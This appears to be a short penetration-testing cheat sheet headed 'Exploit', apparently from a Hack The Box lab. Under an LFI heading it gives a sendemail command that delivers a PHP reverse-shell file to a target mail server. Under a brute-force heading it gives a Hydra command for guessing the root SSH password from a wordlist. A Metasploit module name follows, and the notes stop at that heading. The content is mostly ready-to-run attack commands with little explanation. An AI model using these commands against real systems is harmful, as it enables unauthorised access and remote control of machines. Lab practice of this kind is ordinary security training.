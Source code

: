 # Exploit

## LFI
### Send email
```
sendemail -t asterisk@localhost -o message-file=php-reverse-shell.php -u pwnd -s 10.10.10.7:25 -f flame_n@htb.eu
```

## Bruteforce
### Hydra
SSH
```
hydra -l root -P /usr/share/wordslists/metasploit/unix_passwords.txt ssh://192.168.4.4:22 -t 4 -V
```
### scanner/ssh/ssh_login
